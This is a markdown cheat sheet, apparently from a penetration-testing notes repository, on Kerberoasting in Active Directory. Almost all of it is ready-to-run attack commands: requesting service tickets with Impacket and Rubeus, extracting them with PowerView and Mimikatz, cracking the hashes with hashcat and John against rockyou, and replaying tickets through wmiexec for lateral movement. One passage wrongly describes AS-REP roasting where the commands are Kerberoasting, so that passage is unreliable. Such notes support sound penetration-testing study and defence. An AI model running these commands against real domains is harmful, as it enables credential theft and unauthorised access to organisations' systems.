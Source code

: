 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.
## **Perform Kerberoasting on `Kali`:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
    
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## **Perform Kerberoasting on `Windows` (joined domain):**
By using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using PowerView to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali <---
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)
